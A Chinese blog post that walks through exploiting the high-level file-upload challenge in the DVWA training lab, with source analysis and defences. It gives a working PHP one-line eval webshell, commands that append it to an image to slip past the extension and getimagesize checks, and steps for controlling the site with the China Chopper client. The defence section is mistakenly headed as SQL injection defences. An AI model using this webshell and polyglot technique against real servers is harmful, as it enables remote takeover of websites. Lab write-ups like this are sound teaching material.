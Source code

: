 ```yaml
---
layout: post
title: DVWA之high级文件上传漏洞
date: '2021-03-22 18:38:20 +0800'
categories: technology
tags: ubuntu apache mysql php phpmyadmin git hack web dvwa
img: https://i.loli.net/2021/03/24/ahCQugrpzeqwxVU.png
themecolor: "#fff"
themetextcolor: "#000"
describe: File Upload in DVWA
---
```


## 什么是文件上传漏洞

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。常见场景是 web 服务器允许用户上传图片或者普通文本文件保存，而用户绕过上传机制上传恶意代码并执行从而控制服务器。显然这种漏洞是 getshell 最快最直接的方法之一，需要说明的是上传文件操作本身是没有问题的，问题在于文件上传到服务器后，服务器怎么处理和解释文件。


文件上传漏洞的利用是有`限制条件`：

+ 能够成功上传木马文件
+ 上传文件必须能够被执行
+ 上传文件的路径必须可知

## 文件上传漏洞产生的原因

1. 服务器配置不当会导致任意文件上传；

2. Web 应用开放了文件上传功能，并且对上传的文件没有进行足够的限制；

3. 程序开发部署时候，没有考虑到系统特性和验证和过滤不严格而导致限制被绕过，上传任意文件。


## 文件上传漏洞的原理

<img src="/assets/images/posts/dvwa/fileupload/fu.png">

## high级别文件上传



### 1. 制作一句话木马

```php
<?php @eval($_POST['attack']); ?>
```

<img src="/assets/images/posts/dvwa/fileupload/tro.png">   
   
密码为attack

### 2. 准备一张图片

本文使用以下图片进行上传操作：

<img src="/assets/images/posts/dvwa/fileupload/m.jpg">

### 3. 生成图片木马
如果是`Windows`系统，则在`cmd`中执行以下形式的命令：

```bash
copy 原图片名/b+一句话木马文件名/a 生成图片木马名
```

其中`b`指的是binary二进制的含义，`a`指的是append追加的含义。

以上一条命令是把一句话木马以二进制的方式追加到原图片后面生成新的图片木马，原图片内容不会发生改变。

<img src="/assets/images/posts/dvwa/fileupload/f.png">

把图片用十六进制文本编辑器（如010editor）打开就会发现，图片的末尾就是一句话木马的内容。

<img src="/assets/images/posts/dvwa/fileupload/bin.png">

如果是`Linux`系统，则执行以下形式的命令：
```bash
cat 一句话木马文件名 >> 图片名
```
以上一条命令就是把一句话木马追加到图片后面。

### 4. 上传木马图片

<img src="/assets/images/posts/dvwa/fileupload/dvwa.png">

### 5. 连接中国菜刀工具

打开`中国菜刀`后，右键点击添加，如下图所示的格式来填写地址以及配置信息

<img src="/assets/images/posts/dvwa/fileupload/cd.png">

添加成功后，双击就可以用`中国菜刀`就可以获取和控制整个网站目录。

<img src="/assets/images/posts/dvwa/fileupload/fin.png">

### 源码分析

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```
High级别的代码读取文件名中最后一个`.` 后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是`*.jpg`、`*.jpeg` 、`*.png` 之一。同时，`getimagesize` 函数更是限制了上传文件的文件头必须为图像类型。


## SQL注入防御措施
1. 对上传的文件在服务器上存储时进行重命名。
2. 检查上传文件的类型和大小。
3. 禁止上传危险的文件类型，如·`php`、`asp`、`jsp`、`jar`、`war` 等。
4. 直接受指定类型的文件。
5. 上传文件做日志记录。
6. 上传文件要保存的文件名和目录名由系统根据时间生成，不允许用户自定义。
